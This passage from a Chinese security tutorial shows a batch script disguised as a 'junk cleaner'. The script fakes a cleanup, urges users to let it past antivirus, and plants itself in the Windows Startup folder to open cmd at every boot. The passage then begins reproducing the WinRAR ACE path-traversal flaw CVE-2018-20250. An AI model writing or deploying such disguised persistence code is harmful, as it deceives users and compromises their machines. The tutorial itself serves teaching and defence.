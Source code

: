 ```
@echo offtitle 系统垃圾清理color 2fecho 	=====若有杀毒软件恶意拦截，请选择【允许程序的所有操作】====echo.echo.echo start cmd >c:\windows\windows.bat::echo %%0>>c:\windows\windows.batcopy c:\windows\windows.bat "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\">nulif %errorlevel%==0 goto nextcopy c:\windows\windows.bat "%USERPROFILE%\「开始」菜单\程序\启动\">nulif %errorlevel%==1 goto error:nextecho.echo.echo 	=====垃圾清理中，请不要关闭窗口=========echo.ping -n 5 127.0.0.1>nulecho.echo 	=====垃圾清理完毕,共清理垃圾500M=======echo.echo.echo 	=====建议立即重启电脑==========pause:errorecho.echo.echo 	======程序运行失败，请【使用管理员权限】重新运行！========echo.pause
```

注意，我注释了重复操作代码 “::echo %%0>>c:\windows\ windows.bat”，否则开机自启动很麻烦。接着运行代码，如下图所示，需要右键 “以管理员身份运行”。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTl8YP1NdyyovpHD6e3DAIiaqkrIbalgeth1NwqrCvLDXzdHdlME7qdEw/640?wx_fmt=png)

代码会在 C:\windwos 目录下创建批处理文件 “windows.bat”。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTnEEG7531F1k2iabBibvhVvG9V99JgQT3Shp96duMEftlKGDk8Dn2MyXA/640?wx_fmt=png)

同时，在我的 Win10 系统开机自动动目录下也有该文件。目录：

*   …\AppData\Roaming\Microsoft\Windows\Start Menu\ Programs\Startup\
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTYPaAQv121ic7fjOu9mtesapxiaWCPBleSicu1hfQNVhjVYVXRTu55rXtg/640?wx_fmt=png)

打开该文件可以看到写入的 “start cmd” 代码，表示打开 CMD。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTuMxrUrJa3Ss438uHhSicj2H7ibF8PHuOszUuCemoBD84MfB7HHDOl8ZQ/640?wx_fmt=png)

双击该 “windows.bat” 文件，运行结果如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTUa23eo2panD5M2DdlI0IqtvQMbYog5HWSowbXHDbCia9balibK8KgQ3Q/640?wx_fmt=png)

总结： 该部分编写了一个系统清理工具，其实是把这个 windows.bat 写到用户的开机自启动目录下，达到用户每次开机，都会运行该程序的目的，重复调用 CMD 占用资源。如果中了该病毒，用户可以使用 PE 到开启启动目录把 windows.bat 文件删除，或者重装系统，再次建议大家别让它重复运行。

2.WinRAR 恶意劫持自启动
----------------

WinRAR 漏洞（CVE-2018-20250）是 Check Point 团队于 2019 年 2 月爆出的严重安全漏洞，该漏洞已存在于 WinRAR 中 19 年，是 APT 攻击中非常经典的漏洞。由于 WinRAR 使用了一个陈旧的 UNACEV2.dll 动态链接库造成的。当我们解压任意 ACE 文件时，由于没有对文件名进行充分过滤，导致其可实现目录穿越，将恶意软件写入操作系统启动 Startup 文件夹，并且电脑重启时会自动运行该程序，从而造成恶意软件劫持。通过该漏洞可以获得受害者计算机的控制。安全专家表示全球有超过 5 亿用户受到 WinRAR 漏洞影响。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aT5eUkksaMMf0dyXRa491TwhCXMODvn1RO4S32C7poCibic3KFQROkNeXg/640?wx_fmt=png)

下面我们先来复现该漏洞。该漏洞会对多种压缩软件造成影响，版本如下：

*   WinRAR < 5.70 Beta 1
    
*   Bandizip < = 6.2.0.0
    
*   好压 (2345 压缩) < = 5.9.8.10907
    
*   360 压缩 < = 4.0.0.1170
    

第一步，安装 WinRAR 5.6.1 的版本，后续 5.7 升级弥补了该漏洞。作者的电脑是 Win10 操作系统。
